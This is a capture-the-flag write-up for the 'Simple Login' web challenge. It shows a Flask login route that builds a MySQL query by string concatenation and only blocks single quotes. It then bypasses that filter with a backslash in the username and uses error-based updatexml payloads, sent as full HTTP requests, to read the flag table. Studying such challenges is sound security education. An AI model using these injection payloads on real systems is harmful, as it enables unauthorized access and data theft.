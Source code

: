 # Simple Login

<details class="toc"><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 84 solves / 108 points
- Author: @ark
- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

A simple login service :)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901170143.png)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165716.png)

When we go to `/`, it redirected us to `/login`, which means we'll need to login first.

Let's try some random credentials, such as `admin:admin`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165752.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165800.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165842.png)

When we clicked the "Login" button, it'll send a POST request to `/login` with parameter `username` and `password`.

As expected, since the random credential that we just submitted is incorrect, it responded to us with "No user".

Hmm... Because this kind of request usually done with a database. Let's try some **SQL injection** payloads, like `' OR 1=1-- -`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901170259.png)

This time it responded with "Do not try SQL injection". Looks like the web application is filtering out SQL injection payload! To figure what does the filter do, we can view this web application's source code.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/Simple-Login/simple-login.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-2-(Web)/Simple-Login)-[2024.09.01|17:05:36(HKT)]
└> file simple-login.tar.gz 
simple-login.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-2-(Web)/Simple-Login)-[2024.09.01|17:05:38(HKT)]
└> tar xvzf simple-login.tar.gz 
simple-login/
simple-login/db/
simple-login/db/init.sql
simple-login/compose.yaml
simple-login/web/
simple-login/web/app.py
simple-login/web/templates/
simple-login/web/templates/index.html
simple-login/web/templates/login.html
simple-login/web/Dockerfile
simple-login/web/requirements.txt
```

After reading the source code a little, we can have the following findings:
1. This web application is written in Python with [Flask](https://flask.palletsprojects.com/en/3.0.x/) web application framework
2. This web application uses a DBMS (Database Management System) called [MySQL](https://www.mysql.com/), and it uses [PyMySQL](https://github.com/PyMySQL/PyMySQL) for the client connection

Let's deep dive into those logics!

First off, what's our objective? Where's the flag?

In `simple-login/db/init.sql`, we can see that the flag is inserted into table `flag`:

```sql
USE chall;

DROP TABLE IF EXISTS flag;
CREATE TABLE IF NOT EXISTS flag (
    value VARCHAR(128) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_bin;

-- On the remote server, a real flag is inserted.
INSERT INTO flag (value) VALUES ('Alpaca{REDACTED}');
[...]
```

So, our goal is this challenge is to somehow **exfiltrate table `flag`'s record**.

Now let's go to `simple-login/web/app.py`. In there, it has 2 routes. However, only 1 of them are really interesting to us, which is POST route `/login`:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")

        if username is None or password is None:
            return "Missing required parameters", 400
        if len(username) > 64 or len(password) > 64:
            return "Too long parameters", 400
        if "'" in username or "'" in password:
            return "Do not try SQL injection 🤗", 400

        conn = None
        try:
            conn = db()
            with conn.cursor() as cursor:
                cursor.execute(
                    f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
                )
                user = cursor.fetchone()
        [...]
    else:
        [...]
```

Right off the bat, we can see there's a SQL injection vulnerability, as this route **directly concatenates our POST parameter `username` and `password` value into the raw SQL query**.

However, this SQL injection vulnerability is not that straight forward to be exploited, as it has this filter:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    [...]
    if "'" in username or "'" in password:
        return "Do not try SQL injection 🤗", 400
```

As you can see, if our parameter's value **contains** single quote (`'`) character, it'll not execute the raw SQL query.

## Exploitation

Can we bypass this filter? Well, yes!

To do so, we can **use a backslash character (`\`) in the `username` parameter** to **escape the string**, and then we can inject our SQL injection payload into the `password` parameter!

**Original SQL query:**
```sql
SELECT * FROM users WHERE username = '{username}' AND password = '{password}'
```

**Our payload:**
```sql
SELECT * FROM users WHERE username = '\' AND password = ' OR 1=1-- -'
```

Nice! Let's test this!

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

username=\&password=+OR+1%3d1--+-
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172030.png)

We now successfully bypassed the authenticated via SQL injection!

But wait, the flag is in the table `flag`...

To exfiltrate the flag record, we can use an error-based SQL injection payload, such as the following:

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

username=\&password=+and+updatexml(null,concat(0x0a,version()),null)-- -
```

> Note: The above payload is from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---updatexml-function).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172352.png)

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

username=\&password=+and+updatexml(null,concat(0x0a,(select+*+from+flag)),null)--+-
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172556.png)

Although the output is truncated, we can try to remove the new line character (`0x0a`) in the `concat` function:

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

username=\&password=+and+updatexml(null,concat((select+*+from+flag)),null)--+-
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901174212.png)

- **Flag: `Alpaca{SQLi_with0ut_5ingle_quot3s!}`**

## Conclusion

What we've learned:

1. SQL injection without single quotes